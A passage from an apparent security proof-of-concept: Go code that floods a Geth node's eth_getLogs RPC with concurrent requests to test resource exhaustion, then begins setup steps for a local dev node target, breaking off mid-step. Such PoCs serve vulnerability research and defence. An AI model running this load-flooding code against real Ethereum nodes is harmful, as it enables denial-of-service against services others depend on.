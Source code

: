 ```Go
			// ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
			// defer cancel()

			logs, err := client.FilterLogs(ctx, query)
			if err!= nil {
				log.Printf("Worker %d, Req %d: Error filtering logs: %v\n", id, i, err)
			} else {
				log.Printf("Worker %d, Req %d: Retrieved %d logs\n", id, i, len(logs))
			}
			// No significant delay between requests to simulate rapid attack
			time.Sleep(10 * time.Millisecond) // Minimal sleep to prevent pure CPU bound client
		}
	}
}

func main() {
	client, err := ethclient.Dial(rpcEndpointDev)
	if err!= nil {
		log.Fatalf("Failed to connect to Ethereum client at %s: %v", rpcEndpointDev, err)
	}
	defer client.Close()

	log.Printf("Starting eth_getLogs abuse PoC against %s...\n", rpcEndpointDev)
	log.Printf("Will run %d concurrent goroutines for approximately %s.\n", numGoroutines, attackDuration)
	log.Println("Monitor the target Geth node's CPU, memory usage, and responsiveness.")

	var wg sync.WaitGroup
	stopSignal := make(chan struct{})

	for i := 0; i < numGoroutines; i++ {
		wg.Add(1)
		go attackWorker(client, &wg, i, stopSignal)
	}

	// Let the attack run for the specified duration
	time.Sleep(attackDuration)
	close(stopSignal) // Signal workers to stop

	log.Println("Waiting for workers to finish...")
	wg.Wait()
	log.Println("PoC finished. Observe node resource usage and responsiveness.")
}
```

**Execution Steps:**

1. **Start Target Node:** Launch the Geth dev node:
`geth --dev --http --http.port 8545 --http.api eth,net,web3 --verbosity 3 console`
In the Geth console, unlock an account and mine a few blocks to ensure some logs can be generated/queried:
